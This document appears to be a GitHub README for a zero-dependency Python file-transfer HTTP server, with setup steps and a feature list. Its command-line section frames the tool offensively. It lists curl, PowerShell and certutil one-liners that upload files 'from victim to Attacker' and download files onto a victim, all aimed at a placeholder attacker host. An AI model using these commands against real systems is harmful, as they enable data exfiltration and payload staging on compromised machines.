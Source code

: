 # 🔁 Advanced File Transfer Server

A lightweight, cross-platform, zero-dependency HTTP server written in Python that enables file upload and download from any system — through a web browser or command line. Perfect for sharing files across local networks quickly and securely (within trusted environments).

---

## ✅ Features

- 📂 Directory browsing via browser
- 📥 File download via direct links
- ⬆️ File upload via web UI
- 🧾 File upload via `curl` (`PUT` method)
- 📁 Uploads save correctly based on the browser or CLI path
- ⚙️ Works on **Linux**, **macOS**, and **Windows**
- 🚫 No third-party dependencies – 100% standard Python

---

## 💻 Requirements

- Python 3.x (tested on 3.6+)
- Open port (default: `8080`)
- No installation or configuration needed

---

## 🚀 Getting Started

### Clone or Download

```bash
git clone https://github.com/Chittu13/File_Transfer.git
cd File_Transfer
python3 file_server.py
```


## 🌐 Web Interface
  - Open http://<your-ip>:8080/ in your browser.
  - Navigate folders by clicking.
  - Use the upload form to send files to the current folder.
  - Uploaded files will be saved in the exact subdirectory you're viewing.

## 📤 Upload & Download via Command Line (curl)

### Linux
#### Upload
  - `curl -T file http://Attacker-Ip:8080` # Upload file from victim to Attacker
#### Download
  - `wget http//Attacker-IP:8080`



### Windows

#### Upload
- `curl -T C:\Users\Public\file.txt http://Attacker-ip:8080/`
- `$WebClient.UploadFile("http://Attacker:8080/file.txt", "PUT", "C:\Users\Public\file.txt")`

#### Download 
  - `Invoke-WebRequest -Uri "http://Attacker-ip:8080/file.txt" -OutFile "C:\Users\Public\file.txt"`
  - `certutil -urlcache -split -f "http://Attakcer-ip:8080/file.txt" "C:\Users\Public\file.txt"`
  - `curl -o C:\Users\Public\file.txt http://10.10.1.212:8080/file.txt`


## 🛡 Security Warning

⚠️ This tool is not secure for public/internet-facing use.
  - No authentication or encryption
  - No user restrictions
  - Anyone on the network can access, upload, or download files

Use it only:
  - On local networks
  - For trusted users
  - In controlled environments


---

